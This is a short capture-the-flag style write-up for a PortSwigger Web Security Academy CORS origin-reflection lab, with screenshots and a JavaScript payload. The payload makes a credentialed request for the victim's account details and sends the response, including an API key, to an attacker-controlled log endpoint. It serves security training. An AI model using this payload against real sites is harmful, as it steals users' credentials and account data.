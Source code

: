 ## CORS vulnerability with basic origin reflection

Login with the given credentials

![image1](/images/portswigger-cors-vuln-with-basic-origin-reflection/portswigger-cors-vulnerability-with-basic-origin-reflection1.png)

Go to my account and intercept the requests, this is one of them

![image2](/images/portswigger-cors-vuln-with-basic-origin-reflection/portswigger-cors-vulnerability-with-basic-origin-reflection2.png)

Now add `Origin: https://testtest.test`

![image3](/images/portswigger-cors-vuln-with-basic-origin-reflection/portswigger-cors-vulnerability-with-basic-origin-reflection3.png)

Create in the exploit server and add this:

```html
<script>
   var req = new XMLHttpRequest();
   req.onload = reqListener;
   req.open('get','https://ac4a1f721ec5c69c807c47f1004e000c.web-security-academy.net/accountDetails',true);
   req.withCredentials = true;
   req.send();
   function reqListener() {
       location='/log?key='+this.responseText;
   };
</script>
```

![image4](/images/portswigger-cors-vuln-with-basic-origin-reflection/portswigger-cors-vulnerability-with-basic-origin-reflection4.png)

Store it and deliver the exploit to victim

![image5](/images/portswigger-cors-vuln-with-basic-origin-reflection/portswigger-cors-vulnerability-with-basic-origin-reflection5.png)

And there's the API key
